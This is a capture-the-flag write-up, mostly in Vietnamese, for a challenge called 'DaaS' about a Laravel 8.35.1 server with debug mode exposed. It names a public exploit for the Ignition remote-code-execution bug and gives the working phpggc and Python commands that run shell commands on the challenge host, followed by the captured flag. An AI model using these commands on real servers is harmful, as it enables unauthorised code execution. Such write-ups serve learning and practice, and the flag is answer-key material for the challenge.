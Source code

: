 DaaS
===
### Description
We suspect this server holds valuable information that would further benefit our cause, but we've hit a dead end with this debug page running on a known framework called Laravel. Surely we couldn't exploit this further.. right?

### Overview
Site của trang này là trang chủ của framework laravel. Ở phía cuối site chúng ta có thể thấy được version của laravel và php đang sử dụng cho trang web này.
Laravel v8.35.1 và PHP v7.4.16

### Solution
- Chúng ta không được chung cấp source code hay bất cứ thứ gì ngoài version vì vậy mình đã nghĩ có lẽ là một CVE nào đó liên quan đến version của laravel đang sử dụng. Sau khi tìm kiếm trên google thì mình thấy được có một lỗi CVE liên quan đến version của laravel v8.35.1 là `debug mode`.
- Đây là poc mà mình tìm thấy https://github.com/ambionics/laravel-exploits
- Vì vậy bây giờ chúng ta chỉ cần exploit theo poc này.

### Payload
Step 1: Download file `laravel-ignition-rce.py` và `phpggc` về máy
Step 2: `php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system ls`
Step 3: `python3 laravel-ignition-rce.py http://138.68.147.93:30173/ /tmp/exploit.phar`

Vậy là chúng ta có thể rce nó. Cuối cùng chỉ cần thay `ls` bằng `"cat flag"` và làm lại từ bước 2 là có flag

### Flag
`CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}`